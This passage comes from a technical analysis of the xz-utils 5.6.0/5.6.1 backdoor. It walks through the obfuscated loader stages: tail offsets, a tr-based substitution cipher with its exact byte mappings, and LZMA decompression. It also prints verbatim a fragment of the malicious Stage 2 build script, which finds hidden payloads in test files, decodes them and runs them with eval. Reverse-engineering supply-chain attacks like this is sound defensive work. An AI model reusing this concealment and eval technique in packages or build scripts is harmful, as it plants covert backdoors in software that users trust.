     ![](../img/xz/1.png)
    
    →
    
    ![](../img/xz/2.png)
    
4.  In the next step – tail -c +31233 – the initial portion of the data is discarded (spoiler: it hides the binary backdoor, which is extracted in the next Stage, so it's not needed now). In 5.6.0 that would be the first 31264 bytes and in the 5.6.1 that's 31232 (the one-off difference is because of tail -c +N means "start outputting from byte N" and not "ignore first N bytes").
5.  Step 5 revisits the tr command, which in this case is used as a very simple substitution cipher, with key (byte value mapping) being different in 5.6.0 and 5.6.1: `5.6.0: tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" 5.6.1: tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377"` As per previous explanation, this basically means that (for 5.6.0) byte of value 5 will be substitute with byte of value 0, byte of value 6 will be substituted with byte of value 1, and so on. In each case there are 6 ranges which map to the whole 0 - 255 (that's 377 octal) range.
6.  In the last step the deciphered data is decompressed (xz -F raw --lzma1 -dc) and the resulting Stage 2 is promptly executed.

[Stage 2](#stage2)
------------------

Stage 2 is the [infected.txt](https://www.openwall.com/lists/oss-security/2024/03/29/4/1) file attached by Andres in the original email (that's the 5.6.0 version btw). There's a lot going on in this bash script, as this is where the actual compilation process modification happens.

From the perspective of obfuscation analysis, there are three interesting fragments to this script, **two of which appear only in the 5.6.1 version**. Let's start with them, as they are also simpler.

### [Stage 2 "extension" mechanism](#stage2-ext)

Fragment 1:

``vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null` if test "x$vs" != "x" > /dev/null 2>&1;then f1=`echo $vs | cut -d: -f1` if test "x$f1" != "x" > /dev/null 2>&1;then start=`expr $(echo $vs | cut -d: -f2) + 7` ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null` if test "x$ve" != "x" > /dev/null 2>&1;then f2=`echo $ve | cut -d: -f1` if test "x$f2" != "x" > /dev/null 2>&1;then [ ! "x$f2" = "x$f1" ] && exit 0 [ ! -f $f1 ] && exit 0 end=`expr $(echo $ve | cut -d: -f2) - $start` eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc` fi fi fi fi``
